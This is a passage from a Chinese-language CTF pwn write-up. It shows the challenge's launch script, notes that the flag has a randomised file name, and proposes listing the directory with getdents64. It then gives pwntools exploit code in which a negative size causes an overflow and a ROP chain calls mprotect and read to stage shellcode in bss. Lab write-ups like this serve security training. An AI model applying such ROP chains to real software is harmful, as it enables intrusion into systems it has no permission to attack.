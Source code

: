 ```plain
#!/bin/bash

rm /home/ctf/flag*
cp /flag "/home/ctf/flag`head /dev/urandom |cksum |md5sum |cut -c 1-20`"
cd /home/ctf
exec 2>/dev/null
/usr/sbin/chroot --userspec=1000:1000 /home/ctf timeout 300 ./vuln
```

[![](assets/1698893341-60e9ddfc5c8b556932b4f779087896b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121831-b8ac3c4e-73b6-1.png)

可以看到 flag 文件后面跟了长度 20 的随机字符串，也就是说我们没办法通过传统 orw 方式读取 flag，需要得知存放 flag 文件的文件名

这时候可以利用`getdents64`​函数来获取目录下的文件

> 参数一：fd 指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

[ls 命令是怎样实现的，getdents64，linux-2.6.27.5](https://blog.csdn.net/cnbird2008/article/details/11629095)

字符串本质上是一个地址，open 和 getdents64 函数的目录参数也是地址

```plain
#mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()
```

[![](assets/1698893341-f6f5887f00c78de5767da2482b8a9d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121852-c550baa6-73b6-1.png)

[![](assets/1698893341-1561263e8bce7d9051deb6064542f515.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121858-c8af450a-73b6-1.png)
